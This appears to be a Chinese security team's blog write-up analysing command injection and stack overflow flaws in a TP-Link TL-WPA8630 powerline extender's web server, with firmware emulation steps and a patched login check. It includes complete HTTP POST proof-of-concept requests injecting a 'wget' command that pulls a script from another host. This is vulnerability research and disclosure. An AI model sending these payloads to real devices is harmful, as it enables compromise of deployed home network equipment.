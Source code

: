 #  TPLink 中继器设备命令注入漏洞分析及复现   
原创 Sezangel  ChaMd5安全团队   2023-03-06 11:15  
  
写在前面：  
在分析TPlink中继器设备时（这里以TL-WPA8630为代表），发现了两处可以利用的命令注入和栈溢出漏洞，因此借这个机会，将TPlink此类设备的模拟方法也进行了研究，并在本地对漏洞进行了复现。相关漏洞已经提交至CVE官网。  
  
漏洞介绍：在httpd文件处理admin/powerline的sub_40A918函数中，存在两处命令注入漏洞（也可以构造栈溢出）。对plc_device对应的key参数、plc_add对应的devicePwd参数不加过滤，直接vsprintf拼接执行，造成命令注入，也可以实现栈溢出攻击。版本：TL-WPA8630 KIT(US)_V2_171011版，以及其他WPA、WR、WA等电力猫与中继器设备对应版本。  
  
**漏洞静态分析**httpd文件调用sub_40A918处理/admin/powerline的对应请求：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZYNjvhK6iajPicngRgb3vKjztQan3xmbzUKXjMmibMhucE1HFzGpsDnZfw/640?wx_fmt=png "")  
  
sub_40A918首先判断form参数，如果form参数是plc_device，则交给sub_40A774函数处理，如果form参数是plc_add，则交给sub_40A80C函数处理，这两个函数都有漏洞，我们依次分析。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZ4zL28zqYctV7a8nrBbnI9dCxx06iab1YLxCXFEHAlWKQGgO3v4scvMA/640?wx_fmt=png "")  
  
sub_40A774函数如下，获取operation参数，如果参数是remove，则获取后续key参数，然后将key交给sub_4036A0函数处理，后续会将key的参数直接用vsprintf凭借，然后执行，既可以实现命令注入，又可以实现栈溢出。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZSkKxicJlj9DOVvgf8fsKY4eWlp6q70oQzseXmLTZYA4zBvqeC1jo3kw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZSeem5KOpR9mVYc8FvNLglZUibm7GHLyCyVfqSrs02ZrGBeqkqu66ckg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZ5C2qREic4hRWefW8Rs6hSia85qa9erjqhQ6JxzwSCPzic8JugOibPT9NmA/640?wx_fmt=png "")  
  
sub_40A80C函数如下，获取operation参数，如果参数是write，则获取后续devicePwd参数，然后将其交给sub_4036A0函数处理，同上述一样，既可以实现命令注入，又可以实现栈溢出。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZCXcaAORM0PFfvnkzd6u7bCRcGZxuUsYzHpD4lAVCREEZibjxAd2EbJA/640?wx_fmt=png "")  
  
**固件模拟**基本步骤和往常的设备模拟一样，利用qemu进行系统模拟，命令如下：  
```
#qemu系统模式启动
sudo qemu-system-mips -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap -nographic
#主机网卡配置
#! /bin/sh 
sudo sysctl -w net.ipv4.ip_forward=1 
sudo iptables -F 
sudo iptables -X 
sudo iptables -t nat -F 
sudo iptables -t nat -X 
sudo iptables -t mangle -F 
sudo iptables -t mangle -X 
sudo iptables -P INPUT ACCEPT 
sudo iptables -P FORWARD ACCEPT 
sudo iptables -P OUTPUT ACCEPT 
sudo iptables -t nat -A POSTROUTING -o ens33 -j MASQUERADE 
sudo iptables -I FORWARD 1 -i tap0 -j ACCEPT 
sudo iptables -I FORWARD 1 -o tap0 -m state --state RELATED,ESTABLISHED -j ACCEPT 
sudo ifconfig tap0 192.168.100.254 netmask 255.255.255.0
#qemu网卡配置
#！/bin/sh 
ifconfig eth0 192.168.100.2 netmask 255.255.255.0 
route add default gw 192.168.100.254
#文件系统上传
scp -r squashfs-root/ root@192.168.100.2:~/
#挂载执行：
mount -o bind /dev ./squashfs-root/dev
mount -t proc /proc ./squashfs-root/proc
chroot squashfs-root sh

```  
  
在完成基本环境搭建后，下面还是最困难的问题，启动设备的web服务，直接启动httpd文件：  
```
./usr/bin/httpd

```  
  
发现没有任何报错，然后我们访问对应对应IP：http://192.168.100.2/index.html， 居然直接成功访问登录界面：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZ6PpmEwPgAd795ojcXHiciblSpXfpReDarHTf69LUD3Ru5D97C4PQcWbA/640?wx_fmt=png "")  
  
心里非常惊喜，以为模拟成功，结果发现并没有。输入TPLink的初始用户名和密码：admin、admin，结果提示，用户名和密码错误。按理来说，此设备的默认密码就是admin，但是发生了错误，说明问题出现在登录时的密码验证环节。我们用burpsuite抓一下登陆时的数据包，发现设备会将输入的用户名和密码写入Cookie的Authorization字段。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZia1qRfoicfvibVHOiaV8VMcjPNzTekibXmTRQkibVcORbQ4DAwrulFweHUoA/640?wx_fmt=png "")  
  
我们在IDA里逆向对应的处理流程，程序会先读取Authorization字段，然后在sub_4269B4函数中进行了处理，并进行了分支跳转。盲猜sub_4269B4函数功能就是对登录字段进行校验。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZN8eRdMxaSmF6tIqTp7dznfib3oKU5uR3GPQyTqPcr8MJfA5d4BtLjVg/640?wx_fmt=png "")  
  
分析sub_4269B4函数，发现该函数确实在进行授权校验，主要原理就是将Authorization字段，同config文件夹下的account.config配置文件中的对应结果进行匹配，匹配失败则返回-1。由于我们直接对解包后的文件系统进行模拟的缘故，config文件夹下并没有相关配置文件，因此登录时会验证失败。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZGQziccoEjvcuVSt6pgHxibWbsFwUhGmy6IHNKU9HbrNCdaOb7txAzTIw/640?wx_fmt=png "")  
  
因此，我们要么构造一个符合TPlink结构的config配置文件，要么直接对登录流程进行patch，我们当然选择比较简单的patch方法，只需要将登录的验证跳转分支修改即可。我们将sub_4269B4函数判断改为-1登陆成功，也就是将bltz指令改为bgez指令即可。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZg1UOiaNBpMl9HB3MGI3pBheXkjpa4MsOnFpUe8omTW6hzmePscavoDw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZmb1dkdxWCzr2ujGnyXsSib4c6Ats8Gx8hiaaxP1tBH7oUB1BgOQjSPJA/640?wx_fmt=png "")  
  
将新的httpd文件上传至qemu，此时输入admin、admin，即可成功登入主界面（其实此时应该是任意用户名和密码都可以登入了）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZaKiaT3xaq9crkxAcktHGnhwybnp83lvdcLTuDrecugqH5BOpyVdLerg/640?wx_fmt=png "")  
  
  
**漏洞动态复现**我们分别对两个漏洞点进行复现，在这里我们采用wget命令，验证能否下载文件来证明命令注入成功，在ubuntu中用python搭建简易的web服务器：  
```
python3 -m http.server

```  
  
首先是plc_device对应的漏洞，发送数据包如下：  
```
POST /admin/powerline HTTP/1.1
Host: 192.168.100.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 63
Origin: http://192.168.100.2
Connection: close
Referer: http://192.168.100.2/
Cookie: Authorization=Basic%20admin%3A21232f297a57a5a743894a0e4a801fc3

xxxxxxxxxxxxxxxxxxxxxxxxxx;wget http://192.168.100.254:8000/net.sh; 

#不过实际抓包时，发现form参数是跟在POST的URL后面传的，不过两种传参都可以
POST /admin/powerline?form=plc_device HTTP/1.1

```  
  
成功实现对恶意文件net.sh的下载：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZ79Jic6nMcg27nyEpoBZWCSHY546KPvzs8hm0RicOuFqnzhiaiaoDxdBqJA/640?wx_fmt=png "")  
  
其次是plc_add对应的漏洞，发送数据包如下：  
```
POST /admin/powerline HTTP/1.1
Host: 192.168.100.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://192.168.100.2
Connection: close
Referer: http://192.168.100.2/
Cookie: Authorization=Basic%20admin%3A21232f297a57a5a743894a0e4a801fc3

xxxxxxxxxxxxxxxxxxxxxxxxxx;wget http://192.168.100.254:8000/net.sh; 

#不过实际抓包时，发现form参数是跟在POST的URL后面传的，不过两种传参都可以
POST /admin/powerline?form=plc_add HTTP/1.1

```  
  
成功实现对恶意文件net.sh的下载：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBRUacTdpOicYLYvvjP7h3OcZ79Jic6nMcg27nyEpoBZWCSHY546KPvzs8hm0RicOuFqnzhiaiaoDxdBqJA/640?wx_fmt=png "")  
  
  
以上为漏洞复现全过程，主要实现了对该品牌此类设备的模拟，并将漏洞进行了实际复现，相关设备具有较多的部署和资产，因此需要用户及时更新设备版本。  
  
  
end  
  
  
招新小广告  
  
ChaMd5 Venom 招收大佬入圈  
  
新成立组IOT+工控+样本分析   
长期招新  
  
欢迎联系  
admin@chamd5.org  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBR8nk7RR7HefBINILy4PClwoEMzGCJovye9KIsEjCKwxlqcSFsGJSv3OtYIjmKpXzVyfzlqSicWwxQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
